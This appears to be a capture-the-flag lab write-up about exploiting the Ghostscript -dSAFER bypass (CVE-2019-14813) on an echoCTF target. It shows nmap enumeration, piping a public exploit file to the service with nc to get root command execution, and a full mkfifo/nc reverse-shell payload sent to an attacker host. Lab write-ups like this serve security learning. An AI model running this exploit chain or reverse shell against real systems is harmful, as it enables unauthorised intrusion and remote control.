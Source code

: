 ```yaml
---
layout: post
title: CVE-2019-14813 
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 18 May 2021
tags: [Lorem, Ipsum]
---
```





[CVE-2019-14813](https://echoctf.red/target/16)
![](/assets/images/CVE-2019-14813.png)

A flaw was found in ghostscript, versions 9.x before 9.28, in the setsystemparams procedure where it did not properly secure its privileged calls, enabling scripts to bypass -dSAFER restrictions. A specially crafted PostScript file could disable security protection and then have access to the file system, or execute arbitrary commands.


References:

[CVE-2019-14813](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14813)

[Ghostscript FIX Commit](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=885444fcbe10dc42787ecb76686c8ee4dd33bf3)

[Ghostscript Bugzilla - Bug 700317](https://bugs.ghostscript.com/show_bug.cgi?id=700317)

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
PORT      STATE    SERVICE VERSION
12345/tcp open     netbus?
| fingerprint-strings:
|   Help:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in HELP
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 5
|   NULL:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|   OfficeScan:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in GET
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 4
|_    GS>GS>
42132/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?


```

### vulnerability

CVE-2019-14813


### Exploit 

using refrences and google:

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

let connect via telnet:

telnet 10.0.40.0  12345

```
telnet 10.0.40.0  12345 
                                                                       1 ⨯ 2 ⚙
Trying 10.0.40.0...
Connected to 10.0.40.0.
Escape character is '^]'.
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>


```

we connected to Ghostscript. 

### Rce

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

pasting all file content to terminal.

```
cat ghostrule3.ps | nc 10.0.40.0 12345                                                             2 ⚙
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>=============================================================================
=     Safer Mode Bypass by `.forceput` Exposure from `setsystemparams`      =
=============================================================================
GS>GS>[*] Obtaining .forceput operator from setsystemparams operator...
GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>GS>[+] A candidate for .forceput operator found!
GS>GS>[*] Attempting sanity check with the candidate for .forceput operator...
GS>GS<1>GS>GS>GS>GS>GS>[+] Successfully got .forceput operator!
GS>GS>[*] Overwriting several flags to escape from Safer Mode...
GS>GS>GS>GS>GS>GS>GS>GS>GS>[+] Successfully escaped from Safer Mode!
GS>GS>[*] Executing a shell command...
GS>root
GS>
```
as we can see, we can execute commadns, and got bonus, i can do it as root. 

so let get shell + and root.

### Privilege escalation

let replace the id to rev_shell script. 

```

(Executing a shell command...) info
(whoami) osexec print
quit

```

to 

```

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f) osexec print
quit
```

[generate shells](https://www.revshells.com/)

![](/assets/img/p_sec_cve14813.png)
